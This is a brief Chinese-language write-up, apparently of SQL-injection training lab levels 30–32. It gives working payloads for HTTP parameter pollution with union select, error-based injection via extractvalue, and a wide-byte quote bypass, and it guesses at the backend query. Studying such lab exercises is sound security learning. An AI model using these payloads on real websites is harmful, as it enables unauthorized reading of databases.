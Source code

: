 

#### 30.



此处用的是和上面完全相同的用法……。只是29题是用`'`单引号包裹，此处是用`"`双引号包裹



payload:

```
?id=1&id=-1" union select 1,(select database()),3%23
```











#### 31.



此题整体的思想和29，30题都差不多。都同样是用HTTP参数过滤。



此题的不同之处在于：貌似过滤的单引号。但此题会把sql报错信息输出到前台，所以此题可以用报错注入





payload:

```
?id=1&id=2"and extractvalue(1,concat(0x7e,(select database())))="1
```









猜测后端sql语句：

```
select * from users where id="前端出来的数据" limit 0,1;
```







#### 32.	宽字节绕过



此题过滤了`'`单引号，但是后端就是用`'`单引号做闭合的。测试`%bf`发现有用



所以此处使用宽字节注入。
